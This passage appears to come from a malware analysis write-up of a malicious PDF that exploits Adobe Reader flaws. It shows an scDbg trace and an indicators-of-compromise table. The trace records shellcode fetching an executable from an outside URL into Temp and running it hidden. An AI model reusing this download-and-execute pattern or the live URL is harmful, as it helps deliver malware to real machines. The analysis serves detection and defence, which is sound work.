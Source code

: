 This technique keeps the shellcode independent of absolute addresses and avoids visible import tables.

### 3.4 Controlled Execution with scDbg

To safely validate execution, we used **scDbg** with interactive hooks and memory monitoring. Running `shellcode.bin` at base address **0x401000** produced the following trace:

```
401086 GetTempPathA(len=88, buf=0x12fd80) = 25
4010B0 LoadLibraryA("urlmon.dll")
4010CA URLDownloadToFileA(
          "http://juvitec.net/css/load.php?e=2",
          "C:\\Users\\vboxuser\\AppData\\Local\\Temp\\e.exe",0,0)
4010D7 WinExec("C:\\Users\\vboxuser\\AppData\\Local\\Temp\\e.exe", SW_HIDE)
4010E0 ExitThread(0)
```

![shellcode_sandbox.png](/assets/img/posts/malware/adobe-malware/shellcode_sandbox.png)

We also observed access to **fs:[30h]** and reads of the module list, confirming the same behavior described in the static analysis.

## 4. Indicators of Compromise (IOCs)

During the analysis, several artifacts were identified that can serve as Indicators of Compromise (IOCs). These help blue teams and incident responders detect whether this exploit or its payload has been executed in their environment.

| Type                   | Value                                                                                                |
| ---------------------- | ---------------------------------------------------------------------------------------------------- |
| **MD5 (PDF)**          | `9e4938009e8d3b06442b727e73a7958c`                                                                   |
| **SHA-1 (PDF)**        | `139ac50c3f7e2def20be4077a59941235e0098ff`                                                           |
| **SHA-256 (PDF)**      | `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`                                   |
| **Malicious URL**      | `hxxp://juvitec.net/css/load.php?e=2`                                                                |
| **Dropped File**       | `%TEMP%\e.exe`                                                                                       |
| **Exploit Techniques** | CVE-2008-2992 (util.printf), CVE-2007-5659 (collab.collectEmailInfo), CVE-2009-0927 (collab.getIcon) |
